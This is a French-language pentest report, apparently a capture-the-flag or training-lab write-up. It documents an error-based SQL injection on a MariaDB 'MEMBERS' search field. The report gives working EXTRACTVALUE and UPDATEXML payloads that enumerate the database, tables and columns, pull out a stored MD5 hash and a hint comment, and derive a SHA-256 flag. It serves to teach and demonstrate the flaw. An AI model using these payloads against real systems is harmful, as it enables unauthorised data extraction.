






# Rapport de Pentest : SQL Injection (Error Based)

## 1. Description de la vulnérabilité
* **Cible :** Page `MEMBERS`.
* **Vecteur d'attaque :** Champ de recherche numérique (`id`).
* **Type de faille :** SQL Injection (Error Based - MariaDB).

### Analyse du contournement
Lors de la phase de détection, l'utilisation d'une simple apostrophe `'` a provoqué une erreur de syntaxe révélant un échappement via un backslash `\`. La vulnérabilité a été exploitée en injectant des commandes SQL sans utiliser d'apostrophes, car le système ne filtre pas les entrées numériques avant de les envoyer à la base de données.

---

## 2. Étapes d'exploitation et Preuves

### Étape 1 : Détection de la faille
L'objectif était de prouver que le champ de recherche interagit directement avec la base de données sans filtre.
* **Payload utilisé :** `'`
* **Résultat :** Affichage d'une erreur de syntaxe SQL MariaDB.
* **Preuve visuelle :** `screenshots/1. Preuve de la vulnérabilité (Détection).png`

### Étape 2 : Énumération de la Base de Données
Extraction du nom de la base de données via la fonction `EXTRACTVALUE` qui force l'affichage de données dans un message d'erreur XPATH.
* **Payload :** `1 AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT database()), 0x7e))`
* **Résultat :** `Member_Sql_Injection`
* **Preuve visuelle :** `screenshots/2. Énumération de la Base de Données.png`

### Étape 3 : Énumération des Tables
Identification des tables présentes dans la base de données identifiée.
* **Payload :** `1 AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1), 0x7e))`
* **Résultat :** Table `users` identifiée.
* **Preuve visuelle :** `screenshots/3. Énumération de la Table.png`

### Étape 4 : Énumération des Colonnes (Méthode par Offset)
L'affichage étant limité à un résultat par erreur, nous avons utilisé la clause `OFFSET` pour lister les colonnes une par une. Après avoir exploré les colonnes `user_id`, `first_name`, `last_name`, `town`, `country`, `planet` et `Commentaire`, nous avons trouvé la colonne cible à l'Offset 7.
* **Payload (Offset 7) :** `1 AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT column_name FROM information_schema.columns WHERE table_name=0x7573657273 LIMIT 1 OFFSET 7), 0x7e))`
* **Résultat :** Colonne `countersign` identifiée.
* **Preuve visuelle :** `screenshots/4. Énumération des Colonnes (Le pivot).png`

### Étape 5 : Extraction du hash stocké dans `countersign`
Extraction du contenu stocké dans la colonne `countersign`.
* **Payload :** `1 AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT substring(countersign, 1, 64) FROM users LIMIT 1), 0x7e))`
* **Résultat :** `2b3366bcfd44f540e630d4dc2b9b06d9`
* **Preuve visuelle :** `screenshots/5. Extraction finale du Flag.png`
  Cette valeur correspond à un hash MD5.
* **Preuve visuelle :** `screenshots/5. Extraction countersign.png`

  
### Étape 6 : Extraction de l’indice applicatif (`Commentaire`)
L’analyse de la colonne `Commentaire` a permis d’extraire un message servant d’indication pour la suite de l’exploitation.  
En raison des limitations d’affichage, l’extraction a été réalisée en plusieurs segments à l’aide de `UPDATEXML`.

* **Payload (partie 1) :**`1 AND UPDATEXML(1, CONCAT(0x7e,(SELECT SUBSTRING(Commentaire,1,32) FROM users LIMIT 3,1),0x7e), 1)*`
* **Payload (partie 1) :**`1 AND UPDATEXML(1, CONCAT(0x7e,(SELECT SUBSTRING(Commentaire,33,32) FROM users LIMIT 3,1),0x7e), 1)*`
* **Payload (partie 1) :**`1 AND UPDATEXML(1, CONCAT(0x7e,(SELECT SUBSTRING(Commentaire,65,32) FROM users LIMIT 3,1),0x7e), 1)*`
* **Message reconstitué :** Decrypt this password -> then lower all the char. sha256 on it and it's good !
* **Preuves visuelles: **
* `screenshots/6.1 Commentaire_part1.png`
* `screenshots/6.2 Commentaire_part2.png`
* `screenshots/6.3 Commentaire_part3.png`

  
### Étape 7 : Reconstitution explicite du plaintext
Une concaténation contrôlée de colonnes applicatives permet d’afficher directement le plaintext attendu.
* **Payload :** `1 AND UPDATEXML(1, CONCAT(0x7e,(SELECT CONCAT_WS(0x3a, first_name, last_name, planet)FROM users LIMIT 3,1),0x7e), 1)`
* **Résultat :** `~Flag:GetThe:42~`
* **Preuve visuelle :** `screenshots/Plaintext_Flag_GetThe_42.png`

### Étape 8 : Génération du flag final à partir du plaintext
Le plaintext obtenu à l’étape précédente est : `Flag:GetThe:42`
L’indice applicatif extrait depuis la colonne `Commentaire` indiquait explicitement de convertir le plaintext en minuscules puis d’appliquer un hash SHA-256 sur l’ensemble de la chaîne.
#### Transformation appliquée
1. Conversion du plaintext en minuscules :`flag:getthe:42`
2. Calcul du hash SHA-256 :`659b3665adef36100046ae1b9b51845cd456e93903343721f45e455c0d8311d6`
  
## 3. Conclusion
L’exploitation de la SQL Injection error-based sur la page `MEMBERS` a permis l’énumération complète de la base de données, l’extraction d’un hash MD5 sensible, l’analyse d’un indice applicatif stocké en base et la reconstitution du plaintext final.  
Cette faille démontre une absence de validation des entrées utilisateur et une mauvaise gestion des erreurs SQL, permettant l’exfiltration de données sensibles.
